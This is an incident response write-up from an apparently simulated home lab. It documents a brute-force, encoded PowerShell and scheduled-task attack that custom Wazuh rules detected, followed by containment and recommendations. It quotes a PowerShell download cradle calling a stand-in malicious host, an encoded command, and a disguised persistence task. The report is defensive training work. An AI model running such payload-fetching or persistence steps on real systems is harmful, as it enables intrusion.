


# Day 5 — Incident Response: IR-2026-001

**Date:** April 23, 2026  
**Duration:** ~3 hours  
**Status:** ✅ Complete

---

## Incident Summary

| Field | Value |
|-------|-------|
| Incident ID | IR-2026-001 |
| Date | April 23, 2026 |
| Analyst | Ronak Mishra |
| Severity | High |
| Status | Resolved |
| Affected Endpoint | RONAKMISHRA345C (10.0.0.32) |
| Detection Method | Custom Wazuh rules 100002, 100003, 100006 |

---

## Executive Summary

On April 23, 2026, a multi-stage attack was detected against endpoint RONAKMISHRA345C. The attacker began with a brute force authentication attack, then executed encoded PowerShell commands attempting to download a second-stage payload, and finally established persistence via a malicious scheduled task.

The attack was detected by custom Wazuh detection rules. The affected endpoint was isolated, the malicious scheduled task was removed, and the system was verified clean before being brought back online. Total time from first detection to containment: 54 minutes.

---

## Timeline of Events

| Time | Event | Rule Fired | Severity |
|------|-------|-----------|---------|
| 11:31:50 | Multiple failed logon attempts — first wave | 100006 | High |
| 11:32:23 | Continued brute force — second wave | 100006 | High |
| 11:42:44 | Encoded PowerShell execution detected | 100002 | High |
| 11:42:44 | PowerShell download cradle detected | 100003 | High |
| 11:52:53 | Malicious scheduled task WindowsUpdateHelper created | 4698 (Event) | High |
| 12:25:00 | Endpoint isolated via agent_control | Manual action | — |

Total duration from first event to persistence establishment: **21 minutes.**

---

## Technical Analysis

### Phase 1 — Initial Access: Brute Force (T1110)

The attacker launched a brute force attack using the username `fakeattacker`:

| Attribute | Value |
|-----------|-------|
| Authentication Protocol | NTLM (Network LAN Manager) |
| Logon Type | 3 — Network logon (remote authentication) |
| Source IP | ::1 (localhost in this simulation) |
| Username targeted | fakeattacker |
| Wordlist used | rockyou.txt — 14 million real passwords from previous breaches |

Rule 100006 fired twice — each time the 5-failure threshold was breached within the 120-second window.

### Phase 2 — Execution: Encoded PowerShell (T1059.001 + T1105)

Two alerts fired simultaneously at 11:42:44 — confirming these were part of the same attack session.

**Rule 100002 — Encoded Command:**
```
powershell.exe -enc SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0
Decoded: Invoke-WebRequest
```

**Rule 100003 — Download Cradle:**
```
powershell -Command "Invoke-WebRequest http://malicious-test.com/payload"
```

The attacker attempted to download a second-stage payload from external infrastructure. If successful, this would have loaded malware directly into memory — a fileless attack leaving no file on disk.

### Phase 3 — Persistence: Scheduled Task (T1053.005)

| Attribute | Value |
|-----------|-------|
| Task Name | WindowsUpdateHelper — chosen to blend with legitimate Windows tasks |
| Trigger | On every user logon |
| Run As | SYSTEM — highest privilege level |
| Encoded Payload | cGluZyBnb29nbGUuY29t |
| Decoded | ping google.com (in a real attack: reverse shell or malware execution) |

The task name was deliberately chosen to appear legitimate. Without SIEM monitoring, this task would survive reboots and re-execute the attacker payload on every login.

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|------|-------|-------------|
| Username | fakeattacker | Brute force target username |
| URL | http://malicious-test.com/payload | Second-stage download URL |
| Scheduled Task | WindowsUpdateHelper | Malicious persistence mechanism |
| Encoded Payload 1 | SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0 | Decodes to Invoke-WebRequest |
| Encoded Payload 2 | cGluZyBnb29nbGUuY29t | Decodes to ping google.com |
| MITRE Techniques | T1110, T1059.001, T1105, T1053.005 | Attack techniques used |

---

## Response Actions

### Containment — Agent Isolation



Endpoint RONAKMISHRA345C isolated via:
```bash
sudo /var/ossec/bin/agent_control -i 001
```

Isolation prevents lateral movement to other systems while investigation continues. Wazuh monitoring maintained during isolation for continued visibility.

### Eradication — Services and Task Cleanup



- Malicious scheduled task deleted: `schtasks /delete /tn "WindowsUpdateHelper" /f`
- User accounts reviewed — no unauthorized accounts found
- Running services reviewed — no malicious services found
- No malware files found on disk (fileless attack — download failed before payload execution)

### Recovery

Agent brought back online after eradication verification:
```bash
sudo /var/ossec/bin/agent_control -b 001
```

Monitoring level increased on affected host. Custom detection rules confirmed still active.

---

## Recommendations

**1. Deploy Suricata Network IDS**  
Would catch Nmap scans, port probes, and brute force traffic before it reaches the endpoint.

**2. Implement Account Lockout Policy**  
Configure Windows to lock accounts after 5 failed attempts for 30 minutes. Stops brute force regardless of SIEM detection thresholds.

**3. Enable MFA on All Accounts**  
Even if an attacker obtains the correct password, MFA prevents authentication without the second factor.

**4. Block PowerShell Encoded Commands via Policy**  
Windows Defender Application Control (WDAC) can block PowerShell `-enc` execution entirely.

---

## Lessons Learned

**Speed of Detection Matters**  
From first brute force attempt to persistence establishment was 21 minutes. Earlier detection and faster containment would have prevented the scheduled task from being created.

**Multiple Detection Layers Are Essential**  
Rules 100002 and 100003 fired simultaneously. Overlapping detections mean an attacker cannot bypass one rule and go undetected.

**Decoding is a Critical First Response Step**  
The first action when seeing an encoded command should always be to decode the payload. `echo [base64] | base64 -d` takes five seconds and immediately reveals attacker intent.
